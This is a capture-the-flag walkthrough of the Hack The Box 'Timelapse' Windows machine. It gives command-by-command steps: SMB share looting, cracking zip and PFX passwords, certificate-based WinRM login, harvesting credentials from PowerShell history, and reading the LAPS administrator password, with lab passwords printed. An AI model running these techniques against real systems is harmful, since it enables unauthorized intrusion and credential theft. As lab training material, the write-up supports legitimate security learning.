# [Timelapse](https://app.hackthebox.com/machines/Timelapse)

```bash
nmap -p- --min-rate 10000 10.10.11.152 -Pn
```



After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,88,135,139,389,445,464,593,636,3268,3269,5986,9389 10.10.11.152 -Pn 
```



I just enumerate SMB share via `smbmap` command.

```bash
smbmap -H 10.10.11.152 -u 'guest'
```




Let's connect into '**Shares**' share of SMB via `smbclient` tool.

```bash
smbclient -N //10.10.11.152/Shares 
```

Then, I want to grab all data from SMB share  by typing below commands.

```bash
recurse on
mask ""
prompt off
mget *
```




I want to get data from 'winrm_backup.zip' file, for this, I just use `unzip` but it asks a password from me.

Let's crack this via using `fcrackzip` tool.

```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt Dev/winrm_backup.zip
```



Password is 'supremelegacy'.


I got **'legacyy_dev_auth.pfx'** a file from zip file.




I found a [post](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) of IBM that I can extract certificate and keys from `.pfx` file.


I want to extract data from `.pfx` file via `openssl` command.

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key
```



But it asks a password from me.

Let's crack this via `pfx2john` tool.

```bash
pfx2john legacyy_dev_auth.pfx > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



Password is 'thuglegacy'.


Let's extract keys via `openssl` command.

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key-enc
```

Then, dump real key by decrypting encrypted key.
```bash
openssl rsa -in legacyy_dev_auth.key-enc -out legacyy_dev_auth.key
```

Let's dump the certificate.

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
```





Now, it's time to connect machine's port (5986) which run HTTP and SSL certificate is used here.

```bash
evil-winrm -i 10.10.11.152 -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
```

user.txt




I just looked for `Console_History.txt` file on machine and found on directory called 'C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine'.



That's credentials of `svc-deploy` user.

svc-deploy: E3R$Q62^12p7PLlC%KWaxuaV


Let's connect into machine via this credentials.

```bash
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

But this cmdlet doesn't work, we need to add '-S' **option**, which means `SSL`

```bash
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

While I look at the privileges of this user called `svc_deploy` via `net user svc_deploy` command.



As because I have 'LAPS_Readers' membership, I searched and know that I can read a 'ms-mcs-AdmPwd' which is password of administrator.


First, I learn computername via `crackmapexec` tool.

```bash
crackmapexec ldap 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --kdcHost 10.10.11.152 -M laps
```




computer_name : DC01

Let's read .

```bash
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```




I found credentials of `administrator` user.

administrator: 8(90F20lRBrY.@@!,BYYRZ3!

Let's connect via `evil-winrm` tool.

```bash
evil-winrm -i 10.10.11.152 -u administrator -p '8(90F20lRBrY.@@!,BYYRZ3!' -S
```


root.txt

